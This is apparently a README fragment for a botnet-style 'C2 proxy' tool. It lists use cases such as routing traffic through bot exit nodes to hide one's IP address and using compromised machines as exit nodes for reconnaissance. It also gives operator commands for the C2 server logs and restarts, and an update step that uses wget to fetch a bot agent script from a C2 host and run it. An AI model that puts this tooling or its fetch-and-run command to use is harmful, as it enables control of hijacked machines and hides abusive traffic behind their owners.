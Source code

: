 ## 🎯 Use Cases

### 1. Anonymous Browsing:
- Route traffic qua multiple bot exit nodes
- Hide real IP address
- Bypass geo-restrictions

### 2. Load Testing:
- Distribute load across multiple bots
- Test application performance
- Simulate real user traffic

### 3. Penetration Testing:
- Use compromised machines as exit nodes
- Test network security
- Perform reconnaissance

### 4. Content Delivery:
- Distribute content via bot network
- Reduce server load
- Improve performance

## 📞 Support

### Logs:
```bash
# C2 Server logs
tail -f /var/log/c2_proxy_server.log

# Bot agent logs
tail -f /var/log/bot_agent.log

# Web dashboard logs
tail -f /var/log/proxy_dashboard.log
```

### Configuration:
```bash
# Edit configuration
nano scripts/c2_proxy_server.py

# Reload configuration
pkill -f c2_proxy_server.py
python3 scripts/c2_proxy_server.py
```

### Updates:
```bash
# Update bot agent
wget https://C2_IP:6666/bot_agent.py
python3 bot_agent.py --c2-host C2_IP --c2-port 7777
```

---